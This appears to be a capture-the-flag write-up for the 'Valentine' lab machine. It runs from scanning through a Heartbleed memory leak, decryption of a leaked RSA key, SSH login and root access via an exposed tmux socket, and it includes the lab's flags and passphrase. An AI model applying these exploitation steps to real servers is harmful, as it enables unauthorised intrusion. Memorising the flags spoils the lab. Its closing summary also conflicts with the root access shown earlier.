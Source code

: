 
---

## Nmap Enumeration

Initial scan to identify open ports and services:

```bash
nmap -sV -sC valentine.htb
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22
```

- Web server is running on both HTTP and HTTPS.
- SSL cert is expired and self-signed.
- SSH version is old and likely vulnerable to known exploits.
- Apache version is also outdated.

---
## Heartbleed Exploit (CVE-2014-0160)

Because OpenSSL is used for HTTPS and the version is vulnerable, we try the Heartbleed exploit:

```bash
searchsploit -m exploits/multiple/remote/32745.py
python2 32745.py valentine.htb
```

Output snippet:

```
...
0140: $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Base64 decode:

```bash
echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
```

Result:

```
heartbleedbelievethehype
```

We now have the RSA key passphrase.

---

## Feroxbuster Directory Bruteforce

Using `feroxbuster` to enumerate paths on the web server:

```bash
feroxbuster -u http://valentine.htb -w /usr/share/wordlists/seclists/PathBANGER.txt -x php,sh,txt -C 404
```

Relevant hits:

```
/index
/index.php
/dev/
/dev/notes.txt
/dev/hype_key
/decode
/decode.php
/encode
/encode.php
/omg
/omg.jpg
```

---

## Notes Discovery

Visiting `/dev/notes.txt` reveals:

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

This implies the encoder/decoder may leak sensitive data. Might not be properly secured yet.

---

## Leaked RSA Key (Hex Encoded)

Visiting `/dev/hype_key` gives a hex blob. Download and convert:

```bash
wget https://valentine.htb/dev/hype_key --no-check-certificate
cat hype_key | xxd -r -p > rsa.enc
```

Result is:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3

-----END RSA PRIVATE KEY-----
```

It’s encrypted — we need the passphrase.

---

## Encoder/Decoder Discovery

- `/encode.php` and `/decode.php` appear functional.
- Based on the notes, encoding/decoding is supposed to be client-side but currently isn’t.
- These endpoints accept POST requests and reflect encoded/decoded content.

---

## Decrypting the Private Key

```bash
openssl rsa -in hype_key -out hype_key_decrypted_unencrypted.key
```

Enter the passphrase when prompted:

```
heartbleedbelievethehype
```

Successful decryption gives a usable private key.

---

## SSH Access

Make the key secure and connect:

```bash
chmod 600 hype_key_decrypted_unencrypted.key
ssh -i hype_key_decrypted_unencrypted.key \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostkeyAlgorithms=+ssh-rsa \
  hype@valentine.htb
# password: heartbleedbelievethehype
```

We gain shell access as user `hype`.

```
hype@Valentine:~$ cat user.txt
bf7eb8c600515cbb9fef7f2fde9a0773
```

```
ls -l /.devs
srw-rw---- 1 root hype 0 Apr 17 17:12 dev_sess
```
It’s a UNIX domain socket. Let's see what’s using it:
```
ps aux | grep dev_sess
root       1057  0.0  0.1  26416  1672 ?        Ss   17:12   0:01 /usr/bin/tmux -S /.devs/dev_sess
```
It’s a `tmux` session running as root, but the socket is readable by our `hype` user.

```
tmux -S /.devs/dev_sess attach
```

```
root@Valentine:/# whoami
root
cd /root
ls
# curl.sh  root.txt
cat root.txt
# 59485c3f0d079b8911b150465e749403
```
---
## Summary

| Step | Action |
|------|--------|
| 1 | Scanned with Nmap and discovered outdated Apache & OpenSSH |
| 2 | Enumerated web dirs with Feroxbuster and found notes, key, encode/decode pages |
| 3 | Found `/dev/hype_key` containing hex-encoded encrypted private key |
| 4 | Exploited Heartbleed to leak memory from HTTPS |
| 5 | Retrieved RSA key passphrase: `heartbleedbelievethehype` |
| 6 | Decrypted private key and SSH’d into the machine as user `hype` |

Next step would be local enumeration and privilege escalation to root.

